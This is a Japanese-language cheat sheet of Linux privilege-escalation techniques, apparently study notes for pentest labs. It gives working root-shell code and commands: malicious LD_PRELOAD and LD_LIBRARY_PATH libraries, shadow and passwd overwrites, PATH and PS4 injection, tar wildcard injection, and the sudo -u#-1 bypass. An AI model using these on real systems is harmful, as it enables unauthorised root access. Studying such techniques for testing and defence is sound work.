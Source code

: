 # Linux Privilege Escalation

## 実行フロー
1. コマンドの確認
2. ファイルの確認
3. sudoの確認

## 機密ファイルのパーミッション確認
### /etc/shadow
通常rootユーザーのみ読み取り可能。しかしもし書き込み可能な場合、新しいパスワードハッシュを生成し、rootユーザーのハッシュを上書きする。

新しいパスワードハッシュの生成
```
mkpasswd -m sha-512 [NEW PASSWORD]
```

### /etc/passwd
通常全てのユーザーが読み取り可能だが、書き込みはrootユーザーのみ可能。しかしもし書き込み可能な場合、rootユーザーのパスワードを上書きする。

新しいパスワードの生成
```
openssl passwd [NEW PASSWORD]
```

## ユーザー環境から継承された環境変数の確認
### env_keep オプションの内容を確認する。
```
sudo -l | grep -iF env_keep
```

#### LD_PRELOAD が存在する場合
1. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

2. コマンドの実行
```
sudo LD_PRELOAD=/tmp/preload.so [COMMAND]
```

#### LD_LIBRARY_PATH が存在する場合
1. プログラムが依存関係にある共有ライブラリを調べる。
```
ldd [COMMAND]
```

2. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

library_path.c
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

3. コマンドの実行
```
sudo LD_LIBRARY_PATH=/tmp [COMMAND]
```

#### Memo
LD_PRELOAD : プログラム（コマンド）実行の際に最初にロードする共有オブジェクトを指定する環境変数。  
LD_LIBRARY_PATH : 最初に共有オブジェクトを検索しに行くディレクトリを指定する環境変数。  
COMMAND : sudoで実行できるコマンド。
setresuid() : Sets real and effective user IDs of the calling process

## コマンドの確認
root権限で実行できるコマンドの確認
```
sudo -l
```

## ファイルの確認
### 怪しいスクリプトの調査
1. LinEnumを実行
2. CronTabに設定されているスクリプトの確認（相対パス or 絶対パス）
3. SUID / SGIDファイルの確認
4. その他ファイルの確認（一般ユーザーのホームディレクトリなど。LinEnumのInteresting Filesセクションも参考）

### 内部コマンドの調査
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合
1. 読み取り可能な文字列を抽出し、内部で実行されているコマンドを確認。
```
strings [FILE]
```

2. システムコール単位での処理の流れから、実行エラーになっているライブラリやファイルなどを確認。
```
strace [FILE]
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
```

### 権限昇格の実行（コマンドの指定方法ごとに）
・相対パスの場合  
tmpディレクトリに同名のスクリプトを作成。
```
echo '/bin/bash -p' | tee /tmp/[FILE]; chmod +x /tmp/[FILE]
export PATH=/tmp:$PATH
```

・絶対パスの場合  
1. スクリプトが配置されているディレクトリに書き込み権限があるか確認
```
ls -la | grep -iF [DIRECTORY]
```

2. スクリプト自体に書き込み権限があるか確認
```
ls -la [FILE]
```

3. Bashのバージョンを確認（デフォルトシェルがBashの場合）
```
/bin/bash --version
```

・Bash < ver4.2-048  
絶対パスの名前の関数を定義する。
```
function [ABSOLUTE PATH] { /bin/bash -p; }
export -f [ABSOLUTE PATH]
```

・Bash < ver4.4  
suid-env2をデバッグモードで実行する。Bashをデバッグモードで実行する場合、環境変数PS4が利用される。PS4には、/bin/bashのスクリプトをtmpディレクトリにコピーし、SUIDを付与するコマンドをセットする。
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```

4. ワイルドカードの使用を確認  
tarコマンドなどの引数として*を使用し、かつ実行先のディレクトリに書き込み権限がある場合。touchコマンドの引数には絶対パスを指定しないとエラーになる。
```
touch [FILE PATH]--checkpoint=1
touch [FILE PATH]--checkpoint-action=exec=[PAYLOAD]
```

## sudoの確認
```
sudo -V
```

・sudo =< ver1.8.28  
他のユーザーとしてコマンドを実行できる権限（ALL）が与えられている必要あり。
```
sudo -u#-1 /bin/bash
sudo -u#4294967295 /bin/bash
```

